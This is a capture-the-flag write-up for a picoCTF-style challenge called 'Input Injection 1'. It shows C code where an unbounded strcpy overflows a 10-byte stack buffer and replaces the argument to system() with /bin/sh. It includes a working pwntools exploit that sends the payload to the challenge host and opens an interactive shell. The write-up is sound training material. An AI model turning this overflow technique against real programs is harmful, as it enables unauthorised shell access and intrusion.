

# *Input Injection 1*

**Challenge summary :**
A small C program reads your `name` into a 200-byte buffer, then calls `fun(name, "uname")`. Inside `fun` the code unsafely copies two strings into adjacent 10-byte local arrays `c[10]` and `buffer[10]`. By overflowing `buffer` you can overwrite `c` with the string `"/bin/sh\0"`. When `system(c)` runs, it spawns a shell — use that shell to read the flag.

---

## Vulnerable code (relevant parts)

```c
void fun(char *name, char *cmd) {
    char c[10];
    char buffer[10];

    strcpy(c, cmd);        // copies "uname" into c
    strcpy(buffer, name);  // vulnerable: no bounds checks

    printf("Goodbye, %s!\n", buffer);
    fflush(stdout);
    system(c);             // calls system(c)
}
```

### Why this is exploitable

* `strcpy(buffer, name)` has **no bounds checks**. `buffer` is only 10 bytes.
* `c` sits adjacent to `buffer` on the stack. If `name` is longer than 10 bytes, overflow bytes will overwrite `c`.
* If you craft `name` so that the overflowed bytes overwrite `c` with the C string `/bin/sh\0`, then `system(c)` executes `/bin/sh` and you get a shell controlled by your input.

---

## Exploit idea

1. Send a name string where the first 10 bytes fill `buffer` (junk), followed immediately by the bytes for `"/bin/sh\x00"` which will land in `c`.
2. After `system(c)` runs, interact with the spawned shell and read the flag (usually via `ls` and `cat flag` or `cat /flag` depending on CTF).

---

## Minimal pwntools exploit

Save as `exploit.py`:

```py
from pwn import *

# Use process('./vuln') for local testing; here we show remote usage:
# p = process('./vuln')
p = remote('saffron-estate.picoctf.net', 65057)

# buffer is 10 bytes, c is 10 bytes.
payload = b'A' * 10 + b'/bin/sh\x00'   # fill buffer then overwrite c with "/bin/sh\0"

p.sendline(payload)   # fgets will read the name
p.interactive()       # interact with the shell
```

Run:

```bash
python3 exploit.py
```

Once you get a shell prompt, search for and read the flag. Typical useful commands:



---
